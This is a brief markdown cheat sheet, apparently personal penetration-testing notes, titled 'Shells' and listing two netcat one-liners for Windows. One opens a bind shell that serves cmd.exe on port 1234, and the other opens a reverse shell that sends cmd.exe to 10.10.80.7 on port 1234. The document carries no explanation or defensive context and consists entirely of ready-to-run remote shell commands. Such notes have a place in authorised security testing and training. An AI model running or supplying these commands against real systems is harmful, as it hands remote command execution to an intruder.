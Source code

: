 # Shells

## Bind Shells

```bash
nc -nvlp 1234 -e cmd.exe
```

## Reverse Shells

```bash
.\nc.exe -nv 10.10.80.7 1234 -e cmd.exe
```